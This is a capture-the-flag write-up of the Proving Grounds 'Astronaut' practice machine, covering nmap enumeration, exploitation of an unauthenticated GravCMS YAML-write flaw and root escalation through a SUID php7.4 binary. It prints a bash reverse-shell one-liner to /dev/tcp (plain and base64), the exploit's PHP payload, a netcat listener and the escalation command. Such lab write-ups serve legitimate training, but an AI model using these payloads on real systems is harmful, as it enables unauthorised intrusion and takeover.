 ```yaml
---
layout: post
title: Proving Grounds Astronaut Write Up
feature-img:
thumbnail:
subtitle: 
date: 2023-11-14
author: "lowercasenumbers"
category: [Proving Grounds]
tags: [Proving Grounds,ctf]
---
```

Astronaut from ProvingGround Practice, is a warmup machine that has a short exploitation path. Rooting the box requires a known exploit and an simple privledege escalation. As always, good enumeration is key. 

# Enumeration
Initial enumeration of the machine was done with: `nmap -sC -sV -oA nmap/initial 192.168.245.12
```bash
-sC for default scripts
-sV for service version enumeration
-p- for all port s
-oA to save the output to a file as .nmap, .gnmap, xml (all formats)
```

Following a scan of all TCP ports, the results below show only port 80 is open which simplifies what to look at next.
```bash
# Nmap 7.94 scan initiated Fri Nov 10 08:29:45 2023 as: nmap -sC -sV -oA nmap/initial -p- 192.168.245.12
Nmap scan report for 192.168.245.12
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 10 08:30:07 2023 -- 1 IP address (1 host up) scanned in 21.48 seconds
```

Review of the initial nmap scan we identify that port 80 is open. Browsing to the website, we identify that Grav CMS is being used. While we do not see any specific version infomration, we can still look for potential exploits. 
![Grav-Webpage](/assets/img/blog/pg/astronaut/grav-webpage.png)

Using SearchSploit we can see a few possible exploits. Cross-site scripting is generally not going to provide us with an entry point. The Server-Side Template Injection requires authentication. Arbitrary YAML Write/Update could work so we take a look at the exploit details. 
```bash
searchsploit "Grav CMS"
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                              | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                              | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                         | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                              | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                              | php/webapps/49788.rb
gravy media CMS 1.07 - Multiple Vulnerabilities                                                                                                                 | php/webapps/8315.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# Initial Access
With a potential exploit identified, we should take a moment to review the source code . Taking a look at the 49973.py exploit, we see a target is hardcoded in a variable named `target` and a base64 encoded payload and an example of how to replace it. 
```python
... shortened for brevity...

target= "http://192.168.1.2"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMy80NDQ0IDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');

... shortened for brevity...
```
In our case, we can replace the target with our target `192.168.245.12` and can run the command `echo -ne "bash -i >& /dev/tcp/192.168.45.240/4444 0>&1" | base64 -w0`. This will out output our base64 encoded payload. Using this, we can modify the exploit as shown below. 

![Exploit Modifications](/assets/img/blog/pg/astronaut/49973_mods.png)


As we specified in the payload, we setup a netcat listener on port 4444 using `nc -nlvp 4444`. Once setup we can run the exploit using `python 49973.py`. It may take a few moments for the shell to be returned. After waiting for a minute, we recieve the reverse shell as the user www-data.
```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.240] from (UNKNOWN) [192.168.245.12] 41192
bash: cannot set terminal process group (7130): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ 
```

# Privilege Escalation
Doing some quick enumeration we can check to see if we can run any commands as root by running `sudo -l`. Unfortunately, this prompts for the password of the `www-data` user which we do not have. 

Another quick check we can perform is looking for any binaries set with a SUID bit. This would allow that binary to be run as the user who owns the binary. Most often this is the root user. To test it we can run the following:

```bash
find / -perm -u=s -type f 2>/dev/null

...shortened for brevity...

/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
```

While some binaries such as passwd need to be run as root some can be abused. Checking GTFOBins identify that the PHP binary with an SUID bit set can be abused by running `/usr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"`. In our case, we run the php7.4 binary which escalates our permissions to root. 

```bash
www-data@gravity:~/html/grav-admin$ /usr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"
<sr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"
whoami
root
ls -la /root
total 40
drwx------  6 root root 4096 Nov 14 22:04 .
drwxr-xr-x 19 root root 4096 Mar 29  2023 ..
lrwxrwxrwx  1 root root    9 Mar 29  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Apr  3  2023 .cache
-rw-------  1 root root    9 Apr  3  2023 flag1.txt
drwxr-xr-x  3 root root 4096 Mar 29  2023 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwx------  1 root root   33 Nov 14 22:04 proof.txt
drwx------  3 root root 4096 Jan 24  2023 snap
drwx------  2 root root 4096 Jan 24  2023 .ssh

```

# Other Notes
When performing my enumeration following gaining my foothold, I found a cron job that ran every minute. This at first appeared to be the path to escalation. However, when taking a close look at the grav binary, it should be noted that this is owned and run by the `www-data` user. While its possible to replace this with a malicious binary and recieve a reverse shell. Doing so would result in a reverse shell as the `www-data` user. Had this cron job been run as root, we could have leveraged it. 

```bash
www-data@gravity:~/html/grav-admin/bin$ crontab -l
crontab -l
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
www-data@gravity:~/html/grav-admin/bin$ ls -la
ls -la
total 2176
drwxrwxr--  2 www-data www-data    4096 Mar 17  2021 .
drwxrwxr-- 15 www-data www-data    4096 Mar 17  2021 ..
-rwxrwxr--  1 www-data www-data 2205196 Mar 17  2021 composer.phar
-rwxrwxr--  1 www-data www-data    1658 Mar 17  2021 gpm
-rwxrwxr--  1 www-data www-data    1552 Mar 17  2021 grav
-rwxrwxr--  1 www-data www-data    1586 Mar 17  2021 plugin
```

When running `linpeas.sh` on this box, it highlights the grav binary as a 95% likely privilege escalation attack vector. Its important to closely review the output of automated tools and be able to filter out false positives. Linpeas is a wonderful tool and if run in this scenario also identifies the `php7.4` binary which we were able to leverage. 
